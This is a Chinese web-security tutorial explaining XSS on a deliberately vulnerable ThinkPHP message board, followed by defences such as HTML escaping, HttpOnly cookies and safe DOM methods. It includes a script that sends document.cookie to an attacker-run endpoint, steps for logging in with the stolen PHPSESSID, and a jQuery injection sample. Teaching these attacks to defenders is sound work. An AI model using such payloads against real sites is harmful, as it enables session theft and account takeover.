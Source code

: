 # XSS攻击

XSS（Cross Site Scripting）跨站脚本攻击，是存在于很多老旧应用系统中，原理简单但危害很大的攻击形式。我们这里对XSS攻击进行介绍和演示。

注：这里其实仅仅是演示原理，在较新的系统中，由于各种框架都有考虑安全性，而且现在的开发人员安全意识比老程序员高得多，真正发现一个XSS漏洞是很难的（通常是间接性的），以下例子使用ThinkPHP5.x编写，框架本身是很安全的，但我们故意做了若干不安全的设置，否则几乎无法实现XSS。

## 原理演示

### 环境搭建

假设我们现在有如下图这样一个应用系统，运行于`localhost:80`，它包含一个功能「留言板」，用户登录后可以访问所有的留言，以及发表留言，该功能的输入框具有XSS漏洞。

![](res/1.png)

![](res/2.png)

当然，该应用系统还有许多其它的涉及隐私，或是涉及金钱的服务，任何人都可以免费注册该网站，但现在攻击者想要窃取其它用户的登录状态，以便转移受害者的资产。

### 注入脚本

我们知道Ajax有个鸡肋的特性就是请求不能跨域，但这个特性除了阻碍我们开发以外没什么其他作用，它根本拦不住我们用其它歪门邪道的方式发起跨域请求。

以下代码的作用是获取浏览器中的Cookie，并创建一个`<img>`标签，向我们运行在`localhost:8080`的攻击系统发送数据。`upload.php`负责接收数据并存入数据库。

```javascript
var token = document.cookie;
var img = document.createElement('img');
img.src = 'http://localhost:8080/upload.php?token=' + token;
document.appendChild(img);
```

我们使用`<script>`标签包裹注入的脚本，由于被攻击的应用系统存在XSS漏洞，这段代码会被其他用户的浏览器执行，把自己的Cookie发送出去。

![](res/3.png)

### 其他用户访问

当其他用户访问这个页面时，并不会看到任何`<img>`，但是他们的登录状态已经在不经意间泄漏了。

![](res/4.png)

### 攻击者设置Cookie并登录

我们现在已经拿到了Cookie，`upload.php`为我们保存在了数据库中，如图所示。

![](res/5.png)

我们要做的就是把`PHPSESSID`设置到浏览器中。

![](res/6.png)

注：Firefox手动添加、编辑Cookie很方便，Chrome好像没有这个功能，只能通过代码创建。

这里我们就跳过了登录，直接利用其它人的`PHPSESSID`进入系统了。

![](res/7.png)

## 防范XSS

实际上，使用现代的框架和技术，就上面这样一个最简单的留言板应用系统，不「特殊修改」一下想写出XSS漏洞都很难，但这不代表业务逻辑变得复杂后，我们写的系统就是安全的，我们可能在实现某个特殊需求时，不经意间就写下了一个隐蔽的漏洞，但原理和上面都是相通的。

### HTML过滤

防范XSS最直接的办法是HTML标签过滤，如果上面我们的浏览版页面过滤了用户输入，让`<script>`这种标签无法起效，注入的脚本也就不会在其他用户的浏览器中执行了。

实际上，ThinkPHP模板引擎默认就会在显示时过滤HTML标签，例如`{$msg}`，假如`msg`中包含文本`<script>`，它只会转义并原样输出。除此之外，我们也可以在用户输入提交数据库前，对非法字符进行过滤。

![](res/8.png)

注：仅适用HTML过滤可能并不是最保险的方式，网上有很多针对某种过滤规则，声称能绕过过滤的方法，也有些过滤库声称能100%杜绝XSS，但不怕一万就怕万一。

### HttpOnly标记

HTTP协议支持`HttpOnly`标记，假如浏览器实现上没有任何bug，它能保证JavaScript无法以任何方式读取`HttpOnly`的Cookie，只有HTTP请求才能带上Cookie，这个基本杜绝了窃取`sessionId`形式的XSS，默认PHP的`PHPSESSID`就是`HttpOnly`的，之前我们演示的程序如果不手动把`HttpOnly`去掉是根本不可能被攻击成功的。

尽管如此，我们仍不排除有些网站会用非`HttpOnly`记录一些其它有价值的数据，除此之外，前后端分离开发时（Vue/React/Angular）一定要留心，很多新手开发者为了和移动客户端的登录机制兼容，需要手动设置一个`Cookie`存储登录凭证而忘记了`HttpOnly`，此外存储在`Local Storage`、`Session Storage`、`IndexedDB`、`WebSQL`中也没有任何XSS保护，在HTML标准于安全方面变的更加完善之前，像登录凭证这种数据不应出现在这些地方。

## 常见问题

有关XSS的常见漏洞，一般体现在两个方面：

1. 关键cookie没有使用`HttpOnly`机制
2. 数据提交和展示逻辑存在漏洞

其中第一项没什么可说的，修改也不难，很多中小型团队随着业务变得复杂，经常会修改框架，或者自己封装一些库以供复用，如果开发者缺乏相关安全意识，很可能某个`xxsessionid`或`xxtoken`就轻易的泄露了，这方面就需要加强开发人员的安全意识了。

关于第二项，现在大多数MVC框架如：ThinkPHP、Laravel等在模板（后端渲染）都有足够的安全机制，我们想写漏洞都难，问题倒是容易出在一些JavaScript实现的DOM操作上。

### innerText和innerHTML

使用`innerText`操作写入内容，HTML标签会被自动转义。

使用`innerHTML`写入的内容不会自动转义，如果写入的内容包含HTML标签，其会被浏览器解析。但是，`innerHTML`写入的`<script></script>`脚本其实不会生效，这和JavaScript脚本的加载顺序有关，然而非法的HTML标签也会造成很大危害了。

### JQuery的不安全操作

JQuery支持类似`$('<div></div>')`这种创建DOM节点的方法，我见过很多人（尤其是使用JQuery的一些老旧系统上），需要异步渲染一个表格，直接用类似下面的代码：

```javascript
$(function () {
    var root = $('#txt');
    var str = '<script>alert(\'fuck u!\')</script>';
    var child = $(str);
    root.append(child);
});
```

假定上面的`str`变量是从数据库中取出来的数据，其中可能包含非法的XSS脚本，那么很遗憾，上面这种写法注入的脚本是能够运行的，而且危害很大。

实际上，JQuery提供了`text()`、`html()`这类方法，对原生DOM操作的`innerText`和`innerHTML`进行封装，我们千万不要图省事造成安全隐患。
